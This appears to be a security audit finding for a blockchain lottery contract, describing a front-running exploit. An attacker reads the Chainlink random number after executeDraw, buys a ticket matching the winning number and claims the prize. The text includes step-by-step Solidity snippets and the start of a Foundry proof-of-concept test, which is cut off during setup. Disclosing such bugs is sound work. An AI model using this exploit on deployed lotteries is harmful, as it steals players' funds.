 Exploit:

Attacker is waiting for last second of `PERIOD` (between to draws).

Call `executeDraw()`. It will affect a `requestRandomNumber()` and chainlink will return random number to `onRandomNumberFulfilled()` at `RNSourceController.sol`.

Attacker now could read received RandomNumber:



       uint256 winningTicketTemp = lot.winningTicket(0);

Attacker buys new ticket with randomNumber:



       uint128[] memory drawId2 = new uint128[](1);
       drawId2[0] = 0;
       uint120[] memory winningArray = new uint120[](1);
       winningArray[0] = uint120(winningTicketTemp); 

       lot.buyTickets(drawId2, winningArray, address(0), address(0));

Claim winnings:

       uint256[] memory ticketID = new uint256[](1);
       ticketID[0] = 1;
       lot.claimWinningTickets(ticketID);

Exploit code:

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./LotteryTestBase.sol";
import "../src/Lottery.sol";
import "./TestToken.sol";
import "test/TestHelpers.sol";

contract LotteryTestCustom is LotteryTestBase {
  address public eoa = address(1234);
  address public attacker = address(1235);

  function testExploit() public {
    vm.warp(0);
    Lottery lot = new Lottery(
      LotterySetupParams(
        rewardToken,
        LotteryDrawSchedule(2 * PERIOD, PERIOD, COOL_DOWN_PERIOD),
        TICKET_PRICE,
        SELECTION_SIZE,
        SELECTION_MAX,
        EXPECTED_PAYOUT,
        fixedRewards
      ),
      playerRewardFirstDraw,
      playerRewardDecrease,
      rewardsToReferrersPerDraw,
      MAX_RN_FAILED_ATTEMPTS,
      MAX_RN_REQUEST_DELAY
    );

    lot.initSource(IRNSource(randomNumberSource));

    vm.startPrank(eoa);
    rewardToken.mint(1000 ether);
    rewardToken.approve(address(lot), 100 ether);
    rewardToken.transfer(address(lot), 100 ether);
```